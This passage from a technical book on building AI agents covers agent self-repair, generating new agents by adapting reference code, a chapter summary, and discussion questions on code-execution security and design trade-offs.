We should avoid overstating this: high-frequency issues like expired tokens, lock files, and port conflicts have clear detection rules and fixed repair actions. `doctor` **first covers these with a set of deterministic checks**—this is fundamentally no different from traditional operations scripts. The true embodiment of Agent capability lies in the second layer: for difficult problems not covered by deterministic rules, `doctor` hands them over to an LLM to analyze error logs, understand the semantics of configuration files, infer causal relationships, and generate targeted repair plans. Deterministic checks ensure stable fixes for common problems, while the LLM handles the long tail of difficult issues—with these two layers working together, `doctor --fix` can automatically resolve a significant portion of common gateway issues. This "Agent repairing Agent" model upgrades self-repair from a system adapter to the infrastructure for Agent bootstrapping when the Agent's target is no longer an external system but its own operating environment.

**Key Techniques for Making an Agent Write an Agent.**

Creating a high-quality Agent is far more complex than generating ordinary application code, as it requires a deep understanding of Agent architecture patterns, best practices, and common pitfalls. Without this domain-specific expertise, even the most powerful code generation models can create Agents with severe architectural flaws. Common flaws include:

1. **Casual context management**: Failing to use the standard context format discussed in Chapter 2, stuffing trajectories as plain text into the context, ignoring KV Cache optimizations from structured messages, and having boundary bugs in tool call loops
2. **Non-standard tool design**: Vague descriptions, missing usage boundary instructions and negative lists, and parameters lacking concrete examples
3. **Outdated technology choices**: A tendency to use the most common but outdated models and APIs from training data. Solution: Maintain a SOTA knowledge base or equip the Agent with search capabilities
4. **Disconnection from the external ecosystem**: Using deprecated APIs, unmaintained libraries, or flawed patterns

The most effective path to solving these problems is not to exhaustively list all rules in the prompt, but to **provide high-quality Agent implementations as reference examples**, guiding the code generation Agent to modify them rather than starting from scratch.

"Example-based generation" has clear advantages: the example code itself is a carrier of best practices. An Agent modifying an example is more likely to get things right than starting from scratch. Good architectural choices are naturally preserved without needing to spell out every rule in the prompt.

When an Agent receives a task to develop a new Agent, it should first copy its own code (or other validated, high-quality implementations) and then make targeted modifications: adjust the system prompt to match the new role, replace or add tools to suit new functions, modify business logic while preserving the architectural framework. This "self-replication with adaptive modification" pattern ensures the new Agent inherits core technical advantages while allowing differentiation in specific dimensions—much like gene replication with mutation in biology.

> **Experiment 5-12 ★★★: Develop an Agent That Can Create Agents**
>
> **Experiment Goal**: Build a Coding Agent with metaprogramming (the ability to write programs that generate or modify other programs) capabilities, enabling it to automatically create new Agent systems based on user requirements while ensuring adherence to best practices.
>
> **Technical Approach**: Provide the Coding Agent with high-quality Agent implementations as reference examples (the ch5/coding-agent project itself can be used). When tasked with creating a new Agent, the Agent first copies this example code and then makes targeted modifications based on the user's specific needs.
>
> **Acceptance Criteria**: The generated Agent can successfully run and complete basic tasks. Verify the use of standard message formats and tool call protocols, and the use of currently recommended models and APIs. Test the correctness of context and state management across multiple conversation turns. Compare the "generation from scratch" and "modification based on examples" modes, validating the latter's advantages in quality and efficiency.
>
>
> 
>
>
Agent bootstrapping represents the ultimate application of code generation capabilities—an Agent that can create Agents achieves intelligent self-replication. Above, we have traced the complete thread from the foundations of the Coding Agent to the diverse value of code generation, and finally to bootstrapping.

## Chapter Summary

The core theme of this chapter has been consistent: code is not just a tool for writing programs; it is the language for an Agent's formalized thinking and precise expression.

The core conclusion from the Harness engineering section is that the high maturity of Coding Agents is not because code generation models are exceptionally powerful, but because decades of software engineering infrastructure—test suites, type systems, version control—naturally form a powerful Harness. This conclusion is worth extending to other Agent scenarios.

The second part demonstrated the broad value of code generation beyond programming, corresponding to the six dimensions in the main text:

- **Thinking Tool**: Leveraging symbolic computation and constraint solving to compensate for the shortcomings of probabilistic thinking
- **Business Rule Constraints**: Expressing business rules unambiguously, providing a deterministic safety line in irreversible operation scenarios—the value of this safety guarantee far exceeds the implementation cost
- **Multimedia Generation**: Creating multimodal content like PPTs and videos through a proposer-reviewer mechanism
- **System Adapter**: Automatically following format evolution to achieve full automation of log parsing and problem diagnosis
- **Generative UI**: Dynamically creating forms, visualizations, and even complete customizable applications, breaking free from plain text limitations
- **Agent Bootstrapping**: Using code to repair and create similar Agents, realizing an Agent that can create Agents

The value of code for an Agent is this: it is both a means to accomplish tasks and a mechanism for accumulating knowledge, creating tools, and optimizing itself—a true "meta-capability."

At this point, we have completed the discussion of two of the three pillars: context and tools—and code generation is the most versatile tool among them. However, one key question remains unanswered: How do we scientifically measure the effectiveness of these design decisions? Starting from the next chapter, we enter the third pillar—the model—beginning with evaluation. The next chapter will build a complete evaluation methodology—from setting up the evaluation environment and designing datasets to reward models and evaluation-driven model selection—providing a means for quantitative validation of the technical solutions discussed in all previous chapters.

## Thought Questions

1. ★★ Code generation is called an Agent's "meta-capability." However, code execution introduces security risks—Agent-generated code may contain vulnerabilities, infinite loops, or resource exhaustion. Sandbox isolation can solve some problems but also limits code capabilities (e.g., inability to access the network or file system). How can we find the optimal balance between security and capability?
2. ★★★ Agent bootstrapping—an Agent that can create Agents—achieves "intelligent self-replication." However, each bootstrapping iteration may introduce new biases or errors. Will these errors accumulate across generations? How can we prevent the degradation of Agent bootstrapping?
3. ★★ When a code generation Agent handles log parsing, it can automatically follow format evolution. But if a format change is a bug rather than an intended modification, the Agent's adaptability actually masks the problem. How should an Agent distinguish between "changes that need adaptation" and "anomalies that need reporting"?
4. ★★ This chapter repeatedly uses the proposer-reviewer mechanism in PPT generation, video editing, and log visualization. If the Reviewer's aesthetic preferences differ from the target user's—for example, the Reviewer considers the information density reasonable, but the user finds it too crowded—the feedback loop may converge on a wrong local optimum. How can user preference feedback be incorporated into the Reviewer loop?
5. ★★ This chapter demonstrates various ways a Coding Agent can deposit experience gained from execution and debugging back into the codebase—writing to knowledge base files, updating architecture documentation, maintaining project instruction files, and solidifying operation sequences into code. If this experience is further refined into rules within the system prompt, the rule set will expand over time. How can we perform "garbage collection" on the accumulated rules—identifying and cleaning up redundant or outdated entries? What are the similarities and differences between this mechanism of an Agent accumulating its own experience and the automatic optimization of system prompts to be discussed in Chapter 8?
6. ★ "Teams that are friendly to remote work are often also friendly to AI Agents." How close is your team or organization to being "AI-ready" in terms of knowledge documentation? What is the biggest obstacle?
7. ★★★ Simon Willison proposed the "fatal three elements" for Agents (access to private data, exposure to untrusted content, and external communication capabilities). This chapter adds a fourth: persistent memory. In a production environment that needs to handle all four elements simultaneously, how would you design a security strategy?
8. ★★ The Artifact pattern allows SQL or frontend code generated by an Agent to be executed directly in the user's browser or database. However, the generated SQL might execute destructive operations, and the generated HTML might contain vulnerabilities. How can system security be ensured?
9. ★★ Encoding business rules as database-truth-based validations within tools, and using parameter design to guide the model to check policy conditions before calling, essentially uses code structure to constrain Agent behavior. What are the advantages and limitations of this "code as rules" pattern compared to natural language rules?
10. ★★ The Artifact pattern allows an Agent to generate SQL or visualization code, which is then executed directly by the frontend, bypassing the LLM for processing large amounts of data. What are the pros and cons of this "Agent generates code, system executes code" division of labor compared to the traditional "Agent directly provides the answer" pattern?
